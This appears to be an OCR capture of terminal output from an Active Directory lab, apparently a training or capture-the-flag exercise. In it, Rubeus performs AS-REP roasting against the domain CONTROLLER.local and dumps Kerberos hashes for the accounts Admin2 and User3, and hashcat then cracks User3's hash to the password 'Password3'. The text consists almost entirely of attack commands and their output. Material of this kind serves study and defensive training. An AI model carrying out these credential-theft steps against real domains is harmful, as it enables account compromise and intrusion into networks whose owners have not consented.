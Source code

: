 ```
C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::3055:6a66:ed1a:a319%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:56AE7B0D92117484110A514362EF69D8$F1F2EA9B723D
      DF2FC5DB743DEA670EB121EC69975BBCBFB02E851216E0F7FB43ECB52E0CFEB6512EA0EB4EAC4FB7
      511FF8078F8EBC1567159D65A0EF4F5816CC4A3D7FFD29FC786CE0C07CE9C6C3C6AB9C38EDA4CB58
      A82AC2C7E2951F42A877B1069DC8D83D9CDF44DDE04E9822AA17E9CD525E6BBFA0465AB677D27C32
      74DCF587D6FB848EDB9FF6B0FB0FC5051FC0585CA4DC794B506E237DEB0A3DD11F184C48A9341F65
      EA0A02583C7EA6EAFA9D51E1442581E0CD3598F4A03CC394BE7BCEF68376BF35D37CC8A36D596551
      9E3F60DF9284CDC63C07B7D7465A033AA0536014721EB181DA9FD5FD74AD0E05125A07F70066

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::3055:6a66:ed1a:a319%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:2AF5CB405BDD67E3863CE5A32ED8308D$9E1C312E02F14
      BB6DD36B25ECED1CE8D33B305F33B018E035990D1A0D6A7F7F9EC69063A90CC24063CE5A9FAEE148
      2F62FD0EFE54A9C21F45F01827668FA47C7C798F5D3DB35FA48B7CFF7988339249649247F868CBD6
      45FDE6CFEC02B5EDAA4B12E0C0BEA61248FDE6509DA3657E23B24A9AF69E32672A22C76D2D62FE46
      D3759AD4F08AB4C8C62EB6633A49D937C6ACFB5655709E200D2B7852F30DFC5FB83E3BBF60B80227
      35ED6F046E1ED2276540C724A1E1CDF0073E7B32B6E1A03B9EA04BD29A71F99CCDE43CF6F23E3E74
      3047AB9789FF86FE62534585993F9075178F3A8095890899ACA448317D8B3C8171BCCD3B067
```

```
$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt

$krb5asrep$23$User3@CONTROLLER.local:2af5cb405bdd67e3863ce5a32ed8308d$9e1c312e02f14bb6dd36b25eced1ce8d33b305f33b018e035990d1a0d6a7f7f9ec69063a90cc24063ce5a9faee1482f62fd0efe54a9c21f45f01827668fa47c7c798f5d3db35fa48b7cff7988339249649247f868cbd645fde6cfec02b5edaa4b12e0c0bea61248fde6509da3657e23b24a9af69e32672a22c76d2d62fe46d3759ad4f08ab4c8c62eb6633a49d937c6acfb5655709e200d2b7852f30dfc5fb83e3bbf60b8022735ed6f046e1ed2276540c724a1e1cdf0073e7b32b6e1a03b9ea04bd29a71f99ccde43cf6f23e3e743047ab9789ff86fe62534585993f9075178f3a8095890899aca448317d8b3c8171bccd3b067:Password3

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$User3@CONTROLLER.local:2af5cb405bdd67...d3b067
Time.Started.....: Mon Sep 12 13:15:44 2022 (0 secs)
```